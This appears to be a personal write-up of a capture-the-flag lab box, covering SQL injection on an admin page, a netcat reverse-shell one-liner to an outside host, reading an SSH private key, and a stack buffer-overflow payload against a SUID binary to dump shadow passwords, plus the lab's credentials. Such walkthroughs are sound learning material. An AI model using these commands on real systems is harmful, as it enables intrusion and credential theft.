 # thecodcaper

export IP=10.10.78.11

## Creds

sql -> debian-sys-maint:root
pingudad:secretpass
pingu:pinguapingu
papa:postman
root:love2fish

## Nmap

22 ssh
80 http


## http

/administrator.php

`username` field is sql injectable

sqlmap found credentials for debian-sys-maint:root

command execution

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.99 9999 >/tmp/f`

reverse shell created

find password `find / -type f -user www-data 2>/dev/null`
find ssh key `cat /home/pingu/.ssh/id_rsa`

## LinEnum

no sudo

### suid

/opt/secret/root

### sudo bug
Sudo version 1.8.16 - CVE-2017-1000367

## Disassemble /op/secret/root

Got to learn more about this. Gist is pwndbg is installed with gdb. That 
makes things easier

We've got source code

`gdb /opt/root` to start analyzing
`r < <(cyclic 50)` to provide a calculateable string to the program
We got a sigint exception
EIP is stack pointer
The program crashes at 0x6161616c
`cyclic -l 0x6161616c` will find the position in that calculatable string
it returns 44

### exploit

find position of shell function in `/opt/secret/root`

Source said that that will print the backup of /etc/shadow

`disassemble shell` in gdb will print the shell function
first line will give memory addres of 0x080484cb

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root` will 
input 44 chars and then the address of the shell function into `/opt/secret/root`

using this will cat the shadow backup file

## Hashing

Having the shadow file lets find the passwords in that. The password of `papa` 
is `postman`. The password of root is `love2fish`
